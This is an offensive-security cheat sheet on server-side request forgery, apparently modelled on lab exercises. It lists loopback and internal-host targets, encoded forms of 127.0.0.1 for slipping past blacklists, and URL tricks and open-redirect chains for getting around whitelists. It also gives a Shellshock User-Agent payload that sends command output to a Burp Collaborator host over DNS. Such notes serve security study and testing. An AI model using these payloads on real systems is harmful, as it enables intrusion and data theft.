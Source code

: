 # ⭕ Server-Side Request Forgery (SSRF)

Induce the server-side application to make HTTP requests to an arbitrary domain of the attacker's choosing.

## <mark style="color:red;">Exploiting</mark>

### <mark style="color:orange;">SSRF against the server itself</mark>

Attacker induces the application to make an HTTP request back to the server that is hosting the application, via its loopback network interface (EX: http://localhost/admin)

### <mark style="color:orange;">SSRF against other back-end systems</mark>

* Attacker can exploit the SSRF vulnerability to access the other interface by submitting a internal HTTP request (EX: http://192.168.1.105/admin)

### <mark style="color:orange;">Blind SSRF vulnerabilities</mark>

Response from the back-end request is not returned in the application's front-end response

**Find vulnerability**

Observe a DNS look-up for the supplied **Burp Collaborator domain**

**Example (Blind SSRF with Shellshock exploitation)**

```http
GET /path TTP/1.1
Host: test.net
...
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).aaabbbcccdddeeefff.burpcollaborator.net
...
Referer: http://192.168.0.1:8080
Upgrade-Insecure-Requests: 1
Connection: close
```

## <mark style="color:red;">Bypass</mark>

### <mark style="color:orange;">Bypass blacklist-based</mark>

* Change "127.0.0.1" to

```
http://2130706433
http://017700000001
http://127.1
http://127.0.1
http://0.0.0.0
http://0
http://0x7f000001
http://2130706433
http://017700000001
http://[::]:80
```

* Registering your own domain name that resolves to 127.0.0.1. You can use "spoofed.burpcollaborator.net" for this purpose
* Obfuscating blocked strings using URL encoding or case variation. Example

```
value=http://127.1/%25%36%31dmin/delete?username=carlos
```

### <mark style="color:orange;">Bypass whitelist-based</mark>

* Using "@" char `https://expected-host@evil-host.net`
* Using "#" char `https://evil-host#expected-host.net`
* Create a invalid domain `https://expected-host.evil-host.net`
* Use URL-encode characters to confuse the URL-parsing code `http://localhost:80%2523@evil-host.net/admin`

### <mark style="color:orange;">Bypassing SSRF filters via open redirection</mark>

**Exapmle-1**&#x20;

/product/nextProduct?currentProductId=6&<mark style="color:green;">path</mark>=<mark style="color:yellow;">http://192.168.0.68/admin</mark>

**Exapmle-2**

If "/product/stock" vulnerable to SSRF and "/nextProduct" vulnerable to OpenRedirect, Then

```http
// HTTP request

POST /product/stock vulnerable/1.1
Host: test.net
......
Connection: close

api=/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos
```
